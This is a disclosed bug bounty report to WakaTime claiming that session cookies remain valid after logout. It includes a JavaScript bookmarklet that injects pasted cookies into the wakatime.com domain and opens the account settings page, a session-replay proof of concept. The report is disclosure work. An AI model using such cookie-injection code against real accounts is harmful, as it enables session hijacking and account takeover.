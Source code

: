 # Broken Authentication and session management OWASP A2

## Report Details
- **Report ID**: 798812
- **URL**: https://hackerone.com/reports/798812
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-02-18T13:44:47.323Z
- **Disclosed**: 2020-02-19T16:47:03.690Z

## Reporter
- **Username**: phhitachi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wakatime

## Vulnerability Information
Hi, Security Team!

 i found vulnerability on https://wakatime.com/

##Steps To Reproduce:

1. First log in into the account, website will create a session for current login.
2. Copy all Cookies and paste it on notepad.
3. Log out your account.
4. Open your chrome browser and right click on bookmark bar and `add page`.
5. Now, on `Edit Bookmark` and paste it on URL and save.

```javascript
javascript:void(function(){ 
    function setCookie(t) { 
    var list = t.split("; "); 
    console.log(list); 
        for (var i = list.length - 1; i >= 0; i--) { 
            var cname = list[i].split("=")[0]; var cvalue = list[i].split("=")[1]; 
            var d = new Date(); d.setTime(d.getTime() + (7*24*60*60*1000)); 
            var expires = ";domain=.wakatime.com;expires="+ d.toUTCString(); 
            document.cookie = cname + "=" + cvalue + "; " + expires; 
        } 
    } 
    function hex2a(hex) { 
        var str = ''; 
        for (var i = 0; i < hex.length; i += 2) {
            var v = parseInt(hex.substr(i, 2), 16); 
            if (v) str += String.fromCharCode(v); 
        } 
    return str; 
    } 
    var cookie = prompt("Broken Authentacation PoC", ""); 
    setCookie(cookie); 
    location.href = 'https://wakatime.com/settings/account'; 
})();
```

6, Click the bookmark page that you created, make sure you are in https://wakatime.com/ before you click the bookmark that you created to popup this.
{F720340}

Now paste your users cookies and we redirect in `https://wakatime.com/settings/account`

Please Watch my PoC:
{F720341}

## Impact

##(Session Token Not expired)
In this attack, an attacker (who can be anonymous external attacker, a user with own account who may attempt to steal data from accounts, or an insider wanting to disguise his or her actions) uses leaks or flaws in the authentication or session management functions to impersonate other users. Application functions related to authentication and session management are often not implemented correctly, allowing attackers to compromise passwords, keys, or session tokens, or to exploit other implementation flaws to assume other users’ identities.

Thanks,
@phhitachi

## Attachments
- poc.PNG
- Broken_Authentacation.avi
